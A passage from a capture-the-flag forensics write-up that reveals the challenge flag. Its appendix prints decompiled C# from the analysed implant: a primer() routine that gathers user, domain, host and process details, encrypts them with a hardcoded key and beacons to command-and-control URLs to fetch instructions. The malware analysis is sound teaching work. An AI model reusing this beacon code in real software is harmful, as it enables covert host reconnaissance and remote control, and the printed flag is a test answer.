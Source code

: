 I guess they put a PNG inside a PNG. If we open it, we *finally* find the flag.
![Pasted_image_20230325181714.png](https://an00brektn.github.io/img/cyber-apocalypse-23/Pasted%20image%2020230325181714.png)

**Flag**: `HTB{h0w_c4N_y0U_s3e_p05H_c0mM4nd?}`

There's definitely more investigating to be done, such as finding the Mimikatz output, but I encourage you to go try the challenge on HackTheBox when they put it on the main site.

## Appendix
Not putting all of the functions here, but mostly just the long ones that I didn't want to flood the main writeup with.
**`primer()`**
```cs
private static void primer()
{
	if (DateTime.ParseExact("2025-01-01", "yyyy-MM-dd", CultureInfo.InvariantCulture) > DateTime.Now)
	{
		Program.dfs = 0;
		string text = "";
		try
		{
			text = WindowsIdentity.GetCurrent().Name;
		}
		catch
		{
			text = Environment.UserName;
		}
		if (Program.ihInteg())
		{
			text += "*";
		}
		string userDomainName = Environment.UserDomainName;
		string environmentVariable = Environment.GetEnvironmentVariable("COMPUTERNAME");
		string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
		int id = Process.GetCurrentProcess().Id;
		string processName = Process.GetCurrentProcess().ProcessName;
		Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
		string text2 = null;
		string text3 = null;
		foreach (string text4 in Program.basearray)
		{
			string text5 = string.Format("{0};{1};{2};{3};{4};{5};1", new object[] { userDomainName, text, environmentVariable, environmentVariable2, id, processName });
			string text6 = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
			text3 = text4;
			string text7 = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
			try
			{
				string text8 = Program.GetWebRequest(Program.Encryption(text6, text5, false, null)).DownloadString(text7);
				text2 = Program.Decryption(text6, text8);
				break;
			}
			catch (Exception ex)
			{
				Console.WriteLine(string.Format(" > Exception {0}", ex.Message));
			}
			Program.dfs++;
		}
		if (string.IsNullOrEmpty(text2))
		{
			throw new Exception();
```